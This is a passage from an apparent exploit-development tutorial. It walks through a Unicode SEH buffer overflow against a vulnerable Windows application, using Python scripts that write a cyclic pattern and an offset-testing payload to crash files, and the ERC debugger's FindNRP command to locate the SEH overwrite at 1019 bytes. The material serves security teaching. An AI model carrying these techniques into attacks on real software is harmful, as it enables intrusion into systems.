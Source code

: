 ```
50.	buf += b"9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8"  
51.	buf += b"Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7F"  
52.	buf += b"k8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn"  
53.	buf += b"7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6"  
54.	buf += b"Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5F"  
55.	buf += b"t6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw"  
56.	buf += b"5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4"  
57.	buf += b"Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3G"  
58.	buf += b"c4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf"  
59.	buf += b"3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2"  
60.	buf += b"Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"  
61.	  
62.	f.write(buf)  
63.	f.close() 

```

With this, if we now generate the crash-2.txt file and copy its contents into our vulnerable application, we will encounter a crash. We can now run the FindNRP command in order to identify how far through our buffer the SEH record was overwritten. Appended to the FindNRP command is the -Unicode switch. This switch specifies that the character encoding is UTF-16 (the Windows Unicode default). It only needs to be specified once per debugging session. As such, all further commands will be in Unicode (where applicable) until the debugger is restarted.

**Command:**\
ERC --FindNRP -Unicode

Output of ERC –FindNRP -Unicode

The output of the FindNRP command above displays that the SEH register is overwritten after 1019 characters in the malicious payload. As such, we will now ensure that our tool output is correct by overwriting our SEH register with Bs and Cs. First, we will need to hit the restart button in order to restart the process and prepare it for another malicious payload. The following exploit code should produce an overwrite of Bs and Cs over the SEH register: &#x20;

```

1.	f = open("crash-3.txt", "wb")
2.	  
3.	buf = b"" 
4.	buf += b"\x41" * 1019
5.	buf += b"\x42" * 2 
6.	buf += b"\x43" * 2 
7.	buf += b"\x44" * (5000 - len(buf))
8.	  
9.	f.write(buf)
10.	f.close()
```
